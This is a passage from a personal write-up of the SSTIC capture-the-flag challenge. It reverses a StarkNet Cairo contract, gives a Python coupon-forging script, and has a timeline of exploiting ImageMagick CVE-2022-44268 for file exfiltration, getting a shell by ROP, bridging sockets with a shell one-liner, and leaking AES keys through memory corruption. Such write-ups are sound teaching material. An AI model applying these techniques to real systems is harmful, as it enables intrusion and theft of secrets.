func __main__.first{pedersen_ptr @ [FP-6] : starkware.cairo.common.cairo_builtins.HashBuiltin*}(curr @ [FP-5] : felt, in_len @ [FP-4] : felt, in @ [FP-3] : felt*) -> (res : felt)

offset 255:        NOP                 
offset 257:        JNZ                 5                   # JMP 262           
offset 259:        PUSH                [FP-6]        # pedersen_ptr
offset 260:        PUSH                [FP-5]        # curr
offset 261:        RET                 
offset 262:        PUSH                [FP-6]        # pedersen_ptr
offset 263:        PUSH                [FP-5]        # curr
offset 264:        PUSH                [[FP-3]]      # *in
offset 265:        CALL                0                   # starkware.cairo.common.hash.hash2
offset 267:        PUSH                [FP-4] + -1   # in_len - 1
offset 269:        PUSH                [FP-3] + 1    # in + 1
offset 271:        CALL                255                 # __main__.first    
offset 273:        RET                 
```

Reversing everything to pseudocode, we get something like this:

```
func first(curr: felt, in_len: felt, in: felt*) -> (res: felt) {
    if (in_len == 0) {
        return curr;
    }
    result = hash2(curr, *in);
    return first(result, in_len - 1, in + 1);
}

func second(h: felt, a: felt, b: felt) {
    range_check(a);
    range_check(b);
    range_check(0x1000000000000000000000000000 - a);
    assert(h == a * 0x100000000000000000000000000000000 + b);
}

func _validate(id_hash: felt, code: felt*) {
    j(id_hash, code);
}

func validate(id: felt, code_len: felt, code: felt*, a: felt, b: felt) {
    assert_only_owner();
    assert_only_once(id);
    ids.write(id, 1);
    nonce = nonce.read();
    res = first(nonce, code_len, code);
    second(res, a, b);
    id_hash = hash2(nonce, id);
    range_check(code_len);
    range_check(code_len - 3);
    _validate(id_hash, code);
}
```

`hash2` and `range_check` are built-in functions. `hash2` performs a [Pedersen hash](https://docs.starknet.io/documentation/architecture_and_concepts/Hashing/hash-functions/#pedersen_hash), while `range_check` asserts that its input is in $[0, 2^{128})$. 
This code is pretty straightforward to understand. `first` hashes the entire code by recursively applying `hash2` with each element. `second` checks that $a < 2^{108}$, $b < 2^{128}$, and that they combine to form the hash from `first`. Notably, `hash2` produces a 252-bit hash, but `second` effectively requires $h < 2^{236}$, so some bruteforcing will be needed to achieve a small enough hash. Finally, `validate` will check that `code_len >= 3`, and feed the code and a hash of the ID into `_validate`, which directly calls the mysterious `j` function.

`j` looks like this:

```
// Function 19
func __main__.j{}(id_hash @ [FP-4] : felt, code @ [FP-3] : felt*)

offset 218:        NOP                 
offset 220:        CALL                7                   # starkware.cairo.lang.compiler.lib.registers.get_ap
offset 222:        ASSERT_EQ           [FP], [AP-1] + 6    # storing get_ap result
offset 224:        PUSH                [[FP-3]+2]          # code[2]
offset 225:        PUSH                0x480680017fff8000 
offset 227:        PUSH                [FP-4]              # id_hash
offset 228:        PUSH                0x400680017fff8000
offset 230:        PUSH                [[FP-3]]            # code[0]
offset 231:        PUSH                0x48507fff7fff8000
offset 233:        PUSH                0x484480017fff8000
offset 235:        PUSH                4919                # 0x1337
offset 237:        PUSH                0x400680017fff8000
offset 239:        PUSH                4918                # 0x1336
offset 241:        PUSH                0x484480017fff8000
offset 243:        PUSH                [[FP-3]+1]          # code[1]
offset 244:        PUSH                [AP-12] * [AP-10]   # id_hash * code[2]
offset 245:        CALL                abs [FP]            
offset 246:        RET                 
```

This is very strange-looking. `get_ap` gets a pointer to the top of the "stack". Then, a bunch of strange values are pushed, followed by **`CALL abs [FP]`**: the program jumps into the stack! This is basically dynamically generated code (Cairo shellcode?). Luckily, it's not super complicated to disassemble this; I basically invented dummy values for all the variables, overwrote a chunk of `j`'s code in the `program.json` file, and disassembled it again with Thoth:

```
offset 218:        PUSH                <id_hash>          # 0xaaaaaaaa        
offset 220:        ASSERT_EQ           [AP], <code[0]>    # 0xbbbbbbbb        
offset 222:        ASSERT_EQ           [AP], [AP-1] * [AP-1]
offset 222:        ADD                 AP, 1               
offset 223:        PUSH                [AP-1] * 4919 
offset 225:        ASSERT_EQ           [AP], 4918          # 0x1336            
offset 227:        ASSERT_EQ           [AP], [AP-1] * <code[1]>
offset 227:        ADD                 AP, 1               
offset 229:        dw <id_hash * code[2]>       
```

This tells us that we require `code[0] == id_hash * id_hash`, `0x1336 == code[1] * code[0] * 0x1337` and `code[2] * id_hash == <RET instruction>`. We see that a RET is `0x208b7fff7fff7ffe`, so this leads to the following set of constraints:

```
code[0] = id_hash * id_hash
code[1] = 0x1336 / (code[0] * 0x1337)
code[2] = 0x208b7fff7fff7ffe / id_hash
```

where all math is performed in $\mathbb{Z}_{p}$.

With all of these constraints figured out, all that's left is to code a [coupon generator](files/stage3/make_coupon.py):

```python
from starkware.crypto.signature.fast_pedersen_hash import pedersen_hash
import random

hash2 = pedersen_hash
nonce = 121485921437276981477059375547635758552
prime = 0x800000000000011000000000000000000000000000000000000000000000001
id = random.getrandbits(128)
id_hash = hash2(nonce, id)
code = [None] * 4
code[0] = pow(id_hash, 2, prime)
code[1] = 0x1336 * pow(code[0] * 0x1337, -1, prime) % prime
code[2] = 0x208b7fff7fff7ffe * pow(id_hash, -1, prime) % prime
h = hash2(hash2(hash2(nonce, code[0]), code[1]), code[2])
for i in range(10000000):
    if i % 100 == 0: print("...", i)
    code[3] = random.getrandbits(128)
    h2 = hash2(h, code[3])
    if h2 < (1<<236):
        break

print("%x" % id)
print(",".join(["%x" % c for c in code]))
print("%x" % (h2 >> 128))
print("%x" % (h2 & ((1<<128)-1)))
```

Although it is a bit slow (up to a few minutes), it does eventually spit out a [valid coupon](files/stage3/coupon.txt):

```
dfa771ad69f9eb10ecc0145e6f0eda46
30ecd409726aedda4824dd82b3a097c0576a956758961685e8dd1df289b2332,2715ed373a70b43e6c721e5b52a55710b749e33c85f8ed1a0832ad3c48e5d16,4533ecbe1beb5d0c1685622bcc5b284753eefb1b58cfcd1df346722cdbc1338,7defca6eea882693c2d8c82e14019363
1975c230897189069de7abf2e9b
329eb85f573b21a9fbc2aa4169f129ca
```

Entering this coupon into the website works, and gives us the stage 3 flag `SSTIC{408656932b4982e58600bc58c73ee09c9ceb170325de207fabc73801fbf67f0f}`!

## Final Stage

After submitting a valid coupon to the server, we're sent to a ["success" page](chall/backup/server/templates/achat_templates/success.html), which looks like a 404 page:

> NFT purchase page
> 
> This page should not be accessible. If you got here, please contact the head pastry chef on his e-mail address.<br><br>
> 
> In order to avoid spam, you must solve a captcha to get the e-mail address: [https://trois-pains-zero.quatre-qu.art/achat/captcha](CAPTCHA)</a>.

Clicking the link will download a tarball containing [24 little images](chall/stage3/captcha):

> [](files/stage3/captcha-pieces.png)

It's a classic jigsaw puzzle! I popped the pieces into my favorite Photoshop-alike, [Photopea](https://www.photopea.com/), and started reassembling. 10 minutes later, I had this:

> [](files/stage3/captcha.psd)

From there, just read off the email address [48ad57aa9c8c600d4c649a5232ef5abf@sstic.org](mailto:48ad57aa9c8c600d4c649a5232ef5abf@sstic.org) and send an email to finish!

## Solution Summary

This is a quick summary of the solution; for details, consult the relevant sections of the writeup.

1. [Stage 0](#stage-0)
    1. Examine the NFT contract and base-64 decode the `BASE_URI` to get https://nft.quatre-qu.art/nft-library.php?id=12.
    2. Change the ID in the URI to `id=1` and visit that to get a flag.
2. [Stage 1](#stage-1)
    1. The website uses an outdated version of ImageMagick to resize PNGs at https://nft.quatre-qu.art/nft-library.php.
    2. [Exploit CVE-2022-44268](files/stage1/dl_file.py) to exfiltrate the PHP script (containing the flag), then exfiltrate the backup files mentioned in the script.
3. [Stage 2a](#stage-2a)
    1. The way the nonce is generated causes the generated $s_1$ value to be a linear function of five unknowns (powers of the private key).
    2. Run [`extract.py`](files/stage2a/extract.py) to extract the linear equations from the provided log file, paste them into [`solve.sage`](files/stage2a/solve.sage), and run that script to get the private key.
4. [Stage 2b](#stage-2b)
5. [Stage 2c](#stage-2c)
6. [Stage 2d](#stage-2d)
7. [Stage 3](#stage-3)
8. [Final Stage](#final-stage)
    1. Download [the CAPTCHA package](chall/stage3/captcha), put the jigsaw pieces into an image editor, and solve the jigsaw.
    2. Read the email address in the resulting image.

## Timeline

Here's an approximate timeline of my solution process, reconstructed via web browsing history, shell history and file timestamps. All times are local (GMT-7).

- 3/31 10:01am: Start on the challenge. Download the NFT from OpenSea and check if there's anything hidden inside the file. Nothing found.
- 3/31 10:03am: Find the contracts on Etherscan. Base64-decode the `BASE_URI` and find the https://nft.quatre-qu.art/nft-library.php?id=12 URL.
- 3/31 10:04am: Transcribe the flag text from https://nft.quatre-qu.art/ by hand, having not found a nice way to extract it from the SVG (it's an embedded PNG).
- 3/31 10:05am: **Submit stage 0 flag.**
- 3/31 10:06am: Enumerate and download all NFTs in case there's anything interesting
- 3/31 10:12am: Starting to research ImageMagick exploits. Try ImageTragick before realizing that the service only accepts PNGs.
- 3/31 10:25am: Find out about CVE-2022-44267 and CVE-2022-44268. Confirm that the PNG file posted on https://www.metabaseq.com/imagemagick-zero-days/ works and leaks `/etc/passwd`.
- 3/31 10:35am: Start working on an [automated downloader](files/stage1/dl_file.py) which will automatically construct the PNG, POST it, download the resulting image, and save the exfiltrated file.
- 3/31 10:55am: Download [`nft-library.php`](chall/stage1/nft-library.php) successfully after fixing some bugs. **Submit the stage 1 flag.**
- 3/31 11:00am: Download, unpack and start going through the contents of [`/devices.tgz`](chall/devices.tgz) and [`/backup.tgz`](chall/backup.tgz).
- 3/31 11:15am: Decide to start by grabbing the Starknet blockchain contract for stage 3, before anyone else interacts with the blockchain and confuses the history. Spend half an hour trying to get the starknet-py dependencies to install properly.
- 3/31 11:45am: Grab all three blocks in the testnet blockchain and the code for the validate contract class: [`blocks.log`](files/stage3/blocks.log).
- 3/31 12:05pm: Use [Thoth](https://github.com/FuzzingLabs/thoth) to [disassemble](files/stage3/program.txt) and decompile the contract. A quick look tells me it's the right class, and that there's definitely something worth reversing here. Decide to defer actually reversing it to later: I need to start getting private keys.
- 3/31 12:17pm: Start looking at device A. Quickly zero-in on the weird looking `get_nonce` function. Initial attempts to crack the private key using step 1 data fails - it's hard to recover `r` from `R`, and the structure of `get_nonce` does not help in that case.
- 3/31 12:45pm: By sketching out the equations for step 2, the linear structure reveals itself. Modify [my script](files/stage2a/extract.py) to extract out the linear equations.
- 3/31 1:14pm: **Obtain the private key for stage 2a**.
- 3/31 1:24pm: Turn my attention to device B. The structure of the program immediately suggests a circuit of some kind.
- 3/31 1:37pm: Start trying to turn the circuit into a graphical diagram. Lots of fiddling with Graphviz; finally produce a halfway [usable script](files/stage2b/seedlocker_graph.py) and [diagram](files/stage2b/seedlocker.pdf).
- 3/31 2:45pm: By examining the relatively-isolated [cluster of nodes on the right edge](files/stage2b/timingloop.png) and printing relevant values during the circuit's execution, I was able to determine that the password must be 80 bits long.
- 3/31 2:58pm: Fruitless explorations of the large circuit. It's simply too complicated.
- 3/31 3:20pm: Hit upon the idea of just using Z3 to solve the whole thing. Rewrite the seedlocker script into something more [Z3-friendly](files/stage2b/seedlocker_z3.py). Run it and wait.
- 3/31 3:38pm: Get a usable password, `995b90996f4564409191`, from z3.
- 3/31 3:40pm: **Obtain the private key for stage 2b** by entering the password into the original script.
- 3/31 3:41pm: Get a virtualenv running for [`flags/crypt.py`](chall/backup/flags/crypt.py) so I can submit flags for stages 2a and 2b.
- 3/31 3:42pm: Start looking at device C by reversing [`frontend_service.bin`](chall/devices/deviceC/frontend_service.bin).
- 3/31 4:45pm: Starting to script basic interaction with the service and get it running locally. Lack of `setsockopt(..., SO_REUSEADDR, &one)` is very annoying!
- 3/31 5:45pm: Have the ability to leak the contents of the `jmpbuf`. Exploit plan seems clear. Now looking for useful gadgets in the frontend service binary.
- 3/31 6:05pm-10:55pm: Attend a hockey game.
- 3/31 10:58pm: Configuring a faster (multithreaded) [PoW solver](https://github.com/nneonneo/pwn-stuff/blob/master/misc/fast_chalsolve.py) to save myself some time with the remote exploit.
- 3/31 11:09pm: Leak the contents of `jmpbuf` from the remote machine, confirming that ASLR is on.
- 3/31 11:13pm: `jmpbuf` contains a libc address, so start looking at libc gadgets. A lot more options!
- 3/31 11:20pm: Try to override `bind` using a preload library to inject `setsockopt(..., SO_REUSEADDR, &one)` locally for debugging. It does not work and I waste 30 minutes trying to figure out various ways to forcefully close the server socket to enable faster local iteration, to no avail.
- 3/31 11:40pm: Get a local debugging setup going using `qemu-user -g` and GDB.
- 4/1 12:33am: Successfully corrupt `jmpbuf` to jump into the middle of the firmware dump routine, obtaining a [copy of the backend firmware file](files/stage2c/firmware.bin)! Start reversing it in Ghidra, but it looks truncated.
- 4/1 2:29am: Successfully ROP the front-end to get a shell. Dump the accessible files and determine that `/home/backendUser/update-unit` is the same as the `firmware.bin` I dumped earlier, and `box-B` (the actual backend binary that's running) is inaccessible. Back to reversing the truncated binary.
- 4/1 2:52am: Not getting far with reversing, so I decide to over-engineer an interactively-controllable ropchain into my frontend exploit so I can talk to the remote backend. This works, but takes me a good two hours to build.
- 4/1 4:43am: Check the scoreboard and see that someone's solved 2.d. Decide to switch to that challenge in case it's easier.
- 4/1 4:46am: Skim a paper on "laser fault injection" from SSTIC 2020. It's not that useful.
- 4/1 4:55am: Check [the plot of the `leakages`](files/stage2d/plot1.png) and take a guess at what's going on. The data is so clean (artificial) - no noise!
- 4/1 5:12am: **Obtain the private key for stage 2d**. Back to Stage 2.c.
- 4/1 5:40am: Find the overflow in the `encrypt` and `decrypt` backend operations. Start trying to figure out how to overflow the message count field without crashing the service.
- 4/1 6:55am-10:25am: Sleep.
- 4/1 11:26am: Wonder if maybe the backend isn't using real AES. Start writing a Unicorn script to emulate the AES routines.
- 4/1 11:45am: Result: it's real AES.
- 4/1 12:45pm-4:00pm: Family outing.
- 4/1 4:49pm: I've finally managed to figure out most of the memory layout of the backend's BSS, including where the IVs and `jmpbuf` are. Still no good ideas on how I can exploit this. Take a break.
- 4/1 5:25pm: After the break, decide I should just go ahead and do everything I can for stage 3, so if/when I get the stage 2c key I can finish everything up quick. Start writing a [MuSig2 signing script](files/stage3/musig2_sign.py).
- 4/1 6:00pm: Script is done and seems to work for the test keys. Start looking at the StarkNet contract.
- 4/1 7:26pm: Figure out that `j` in the contract is constructing a new function "on the stack" and jumping to it. Disassemble the generated code to figure out this last bit of validation.
- 4/1 7:53pm: Have the entire validation algorithm pretty much figured out, with a sketch of a key generator. Back to stage 2c.
- 4/1 8:00pm-8:25pm: Go for a walk. During the walk, it hits me: we can use a "matroshka doll" setup to induce bit flips in the `jmpbuf` via repeated CBC encrypt/decrypt operations, without leaking it!
- 4/1 8:27pm: Get home and start testing the idea. It works in a toy setup...
- 4/1 9:02pm: Realize that I can just use `system("cat <&4 >&5 & cat <&5 >&4")` when exploiting the frontend to connect the backend and frontend sockets together, bypassing the need for the fancy programmable ropchain entirely.
- 4/1 9:30pm: Start implementing a fancy Python-based emulation of the backend's encrypt/decrypt operations so I can develop and debug the bit-flip attack.
- 4/2 1:28am: After several hours of debugging and some insane workarounds, I finally have something that can flip bits in the `jmpbuf`'s saved `lr`.
- 4/2 1:39am: Jump to somewhere inside the get-firmware handler to leak some memory from the firmware stack.
- 4/2 2:40am: Fail to find any viable jump targets that will leak the AES key. Decide I'm going to need to flip bits in the saved `sp` too, which is much more complicated.
- 4/2 4:30am: Finish implementing the attack that flips bits in both `lr` and `sp`. After trying several combinations of `lr` and `sp` without succeeding, decide to just bruteforce `sp` values remotely.
- 4/2 4:39am: While bruteforce is running, write [a script to generate a coupon](files/stage3/make_coupon.py) for the last step of stage 3.
- 4/2 4:57am: Generate [a valid coupon](files/stage3/coupon.txt) for stage 3.
- 4/2 5:00am: Continue tweaking the parameters for bruteforce and managing the workers.
- 4/2 7:18am: Discover that my current approach cannot possibly work because `longjmp` overwrites too much of the stack. Start looking for other targets.
- 4/2 7:40am: Hit upon the idea of constructing a "fake stack" via decrypt that can be used to leak stack contents in the get-firmware handler - including the AES round keys.
- 4/2 7:58am: Start running the new exploit in parallel.
- 4/2 8:04am: The exploit lands, [dumping out the round keys](files/stage2c/aes-leak.bin). **Obtain the private key for stage 2c!**
- 4/2 8:11am: Use the four private keys to sign the admin session message and get to the redemption page.
- 4/2 8:12am: Submit my pre-generated coupon - it works on the first try! **Obtain the stage 3 flag.**
- 4/2 8:13am: Start using Photopea to piece together the puzzle pieces from the CAPTCHA.
- 4/2 8:22am: **Email 48ad57aa9c8c600d4c649a5232ef5abf@sstic.org to complete the challenge!**

## Conclusion

